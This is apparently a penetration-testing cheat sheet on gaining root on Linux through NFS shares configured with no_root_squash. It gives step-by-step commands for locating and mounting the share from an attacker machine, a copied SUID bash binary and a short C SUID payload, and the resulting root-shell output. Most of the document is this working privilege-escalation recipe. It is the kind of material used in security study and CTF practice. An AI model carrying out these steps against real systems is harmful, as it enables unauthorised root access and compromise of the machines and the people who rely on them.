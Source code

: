 # NFS exploits

Become root on Linux via NFS exploits:

1. Look for no_root_squash shares
2. Mount share
3. Create a payload
   * Bash binary with an SUID bit
   * C binary with an SUID bit
4. Execute the payload on the target mac hine to escalate privileges
5. Unmount the shared directory in the attacker machine

## Example: /tmp share

1. Get information:

```text
$ ps aux | grep nfsd
$ cat /etc/exports
```
There is a `/tmp` share with `no_root_squash` set.

2. Shares with the `no_root_squash` option can possibly be modified and executed as root.
3. On the attacker machine install the NFS client package: `sudo apt install nfs-common`
4. On the attacker machine, create a directory to host the NFS share: `mkdir /tmp/nfs`
5. With `sudo`, mount the remote share in the `/tmp/nfs` directory

```text
sudo mount -o rw,vers=2 <target IP address>:/tmp /tmp/nfs
```

Or:

```text
sudo mount -t nfs <target IP address>:/tmp /tmp/nfs
```
6. Payload 

Bash binary with an SUID bit:

```text
sudo cp /bin/bash /tmp/nfs/bash && sudo chmod u+s /tmp/nfs/bash
```

C binary with an SUID bit - you may need to change the `/usr/bin/bash` to `/bin/bash`, depending on location of `bash` in the target machine:

```text
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
	setresuid(0, 0, 0);
	setuid(getuid());
	system("/usr/bin/bash"); 
	return 0;
}
```

Compile:

```text
gcc payload.c -o payload && sudo rm /tmp/nfs/payload 2>/dev/null; sudo cp payload /tmp/nfs
```

Set de SUID bit:

```text
sudo chmod u+s /tmp/nfs/payload
```

7. In the target machine, execute the payload to escalate privileges:

```text
:/tmp$ ./bash -p
# whoami
root
# exit
```

```text
:/tmp$ ./payload 
:/tmp# id
uid=0(root) gid=1000(low) ...
```

8. Unmount the shared directory in the attacker machine:

```text
sudo umount /tmp/nfs
```

## Notes

The NFS configuration file is `/etc/exports`:

* `no_root_squash`: This option basically gives authority to the root user on the client (us, our attacker host) to access files on the NFS server as root. This is bad, as we can create malicious files on the NFS share as the root user.
* `no_all_squash`: This is similar to no_root_squash option but applies to non-root users.
